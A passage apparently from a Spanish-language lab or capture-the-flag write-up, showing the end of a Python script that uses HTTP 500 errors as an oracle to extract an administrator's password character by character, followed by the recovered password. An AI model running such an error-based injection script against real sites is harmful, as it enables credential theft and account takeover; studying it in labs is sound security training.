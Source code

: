 ```python
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
          'Accept-Language': 'es-ES,es;q=0.5',
          'Accept-Encoding': 'gzip, deflate, br',
          'Dnt': '1',
          'Referer': url_request,
          'Upgrade-Insecure-Requests': '1',
          'Sec-Fetch-Dest': 'document',
          'Sec-Fetch-Mode': 'navigate',
          'Sec-Fetch-Site': 'same-origin',
          'Sec-Fetch-User': '?1',
          'Te': 'trailers'
          }
    try:

        response = requests.get(url_request,headers=headers, cookies=cookies)
        
        if response.status_code==500:
            return True
        else:
            return False
    except requests.exceptions.RequestException as e:
        #print(f"An error occurred: {e}")
        return False
        


if __name__ == "__main__":
    signal.signal(signal.SIGINT,ctrl_C)
    get_name_credentials(letters)
```

Al final podemos ejecutar el script y tendremos nuestra contraseña del usuario administrador

```c
yi2lzo8bph1peaihz9jh
```

